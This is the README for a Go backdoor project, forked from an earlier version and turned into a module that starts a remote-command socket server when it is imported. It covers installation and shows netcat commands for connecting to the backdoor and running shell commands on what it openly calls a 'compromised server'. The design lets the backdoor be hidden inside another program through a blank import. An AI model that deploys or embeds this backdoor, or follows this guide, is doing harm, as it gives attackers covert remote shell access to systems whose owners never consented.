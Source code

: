 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

_/!\ Work in progress, not a stable release /!\_

##Main goal

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:
`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :
```bash
(sudo) pacman -S community/go
```

From Debian :
```bash
(sudo) apt-get install golang-go
```

## Installation

```bash
cd $GOPATH
go get github.com/guimagalhaes/backdoorGolang
```


## Client

Use netcat

```bash
netcat localhost 1234
```

Then execute commands:
/cmd ls -l
/cmd ss -natp

To exit:
/quit

### Instructions

Each message submit by client is sent to all backdoor's clients like a chat. 
However, an alone chat's feature is useless, there are a set of instructions allowed by all clients which have different behavior for taking advantage of the compromised server.

#### Quit Instruction

This instruction permit to logout the current user

```bash
/quit
/exit
```
Example :
```bash
echo "/quit"|netcat localhost 1234
```

#### Command Instruction

This instruction permit to execute shell command from server. (OS supported : Linux, Windows)

```bash
/cmd <shell-command>
```
Example :
```bash
echo "/cmd ls -l"|netcat localhost 1234
```
